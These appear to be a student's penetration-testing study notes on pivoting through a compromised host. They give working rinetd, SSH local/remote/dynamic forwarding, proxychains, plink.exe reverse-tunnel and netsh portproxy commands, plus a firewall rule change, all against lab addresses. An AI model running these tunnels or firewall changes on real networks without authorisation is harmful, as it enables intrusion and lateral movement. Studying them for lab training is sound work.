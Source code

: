 ```yaml
---
title: Study Notes - 2021/07/07
date: 2021-07-07 14:23:33
tags: [Penetration Testing, Study Notes]
---
```


# Port Forwarding 
## RINETD
Default configuration file: 
```
cat /etc/rinetd.conf
```

bind address, bind port: listening address/port  connect address/port: destination  

```
# bindadress bindport connectaddress connectport
0.0.0.0 80 216.58.207.142 80
```
forword any connection to port 80 to google  

```
sudo service rinetd restart
ss -antp | grep "80"
nc -nvv 10.11.0.4 80
```

# SSH Tunneling
## SSH local port forwarding
Senario:  
victim1 already compromised, only accpet 8080, 22, 3389 port from outside. victim1 conenct to another subnetwork contains another target. Move tools to victim1 is not eligent and scalable, want to attack from our kali machine  

```
-L local_socket:host:hostport
-L local_socket:remote_socket
             Specifies that connections to the given TCP port or Unix socket
             on the local (client) host are to be forwarded to the given host
             and port, or Unix socket, on the remote side.  This works by al‐
             locating a socket to listen to either a TCP port on the local
             side, optionally bound to the specified bind_address, or to a
             Unix socket.  Whenever a connection is made to the local port or
             socket, the connection is forwarded over the secure channel, and
             a connection is made to either host port hostport, or the Unix
             socket remote_socket, from the remote machine.

-N      Do not execute a remote command.  This is useful for just for‐
             warding ports.

```

```
In our scenario, we want to forward port 445 (Microsoft networking without NetBIOS) on our Kali
machine to port 445 on the Windows Server 2016 target. When we do this, any Microsoft file
sharing queries directed at our Kali machine will be forwarded to our Windows Server 2016 target.
This seems impossible given that the firewall is blocking traffic on TCP port 445, but this port
forward is tunneled through an SSH session to our Linux target on port 22, which is allowed
through the firewall. In summary, the request will hit our Kali machine on port 445, will be
forwarded across the SSH session, and will then be passed on to port 445 on the Windows Server
2016 target.
```

```
kali@kali:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

# SSH Remote port forwarding 
Senario:  

the firewall is blocking inbound TCP port 22 (SSH) connections, so we can’t
SSH into this server from our Internet-connected Kali machine


```
victim1: ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

forword all 10.11.0.4:2221 request from kali machien to 127.0.0.1:3306

on kali:
```
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
PORT STATE SERVICE VERSION
2221/tcp open mysql MySQL 5.5.5-10.1.26-MariaDB-0+deb9u1
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
```

scan local port will scan target host  


# SSH Dynamic port forwarding  
```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```
With the above syntax in mind, we can create a local SOCKS4 application proxy (-N -D) on our
Kali Linux machine on TCP port 8080 (127.0.0.1:8080), which will tunnel all incoming traffic to
any host in the target network, through the compromised Linux machine, which we log into as
student

We can run any network application through HTTP, SOCKS4, and SOCKS5
proxies with the help of ProxyChains

add to `/etc/proxychains.conf`  
```
socks4 127.0.0.1 8080
```
```
sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

# PLINK.exe
```
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```
if it is the first time, it will attmpt to cache the host key and there's a interactive step y/n

solution: 
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

# netSH
use netsh to do port forwarding on windows, it is installed on windows by default. 

However, for this to work, the Windows system must have the IP Helper service running and IPv6
support must be enabled for the interface we want to use. Fortunately, both are on and enabled
by default on Windows operating systems.  

```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netstat -anp TCP | find "4455" 
```

By default, firewall does not allow inbound connection to 4455, however, we have system privilege, we can change the firewall configuration  

```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

before using smbclient, smb need to be configured with min protocal level = smbv2 and restart 
```
/etc/samba/smb.conf
min protocol = SMB2


sudo /etc/init.d/smbd restart
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```

